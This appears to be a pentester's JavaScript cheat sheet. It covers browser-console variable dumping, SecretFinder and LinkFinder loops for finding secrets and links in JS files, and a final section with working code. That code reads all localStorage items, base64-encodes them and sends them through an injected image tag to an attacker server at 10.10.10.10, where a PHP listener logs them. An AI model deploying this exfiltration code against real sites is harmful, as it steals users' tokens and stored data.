 # All Stuff JS
## Debugging
To list all currently loaded JavaScript variables in the browsers console:   
```
for(var b in window) {
if(window.hasOwnProperty(b)) console.log(b);
}
```
Another method with more output:   
```
var n, arg, name;
console.log("typeof this = " + typeof this);
for (name in this) {
    console.log("this[" + name + "]=" + this[name]);
}
for (n = 0; n < arguments.length; ++n) {
    arg = arguments[n];
    console.log("typeof arguments[" + n + "] = " + typeof arg);
    for (name in arg) {
        console.log("arguments[" + n + "][" + name + "]=" + arg[name]);
    }
}
``` 

## Searching for low hanging fruits
### Secretfinder
`$ for url in $(cat /root/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -o cli; done`   
Using a proxy:   
`$ for url in $(cat /home/kali/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -p http://localhost:8080 -o cli; done`    

### Linkfinder
`# for url in $(cat /root/Desktop/urls_js.txt); do python3 linkfinder.py -i $url -o cli; done`   
Note: If you get SSL deprecation errors, run it with: `python3 -W ignore linkfinder.py`   

## Sending Local Storage Items to Remote Server
### JavaScript (client) 
```
newString = "";
for (var a in localStorage) {
    newString += a + "="
    newString += localStorage[a];
    // Encode the String with base64
    var encodedString = btoa(unescape(encodeURIComponent(newString)))
    document.write('<img src="https://10.10.10.10/attackerswebapp/receiver.php?str='+encodedString+'">');
    newString = "";
}
```
### PHP listener (server)
```
<?php
$encodedstr = $_GET["str"];
$file = fopen('log.txt', 'a');
$string = base64_decode($encodedstr);
fwrite($file, $string . "\n\n");
?>
```
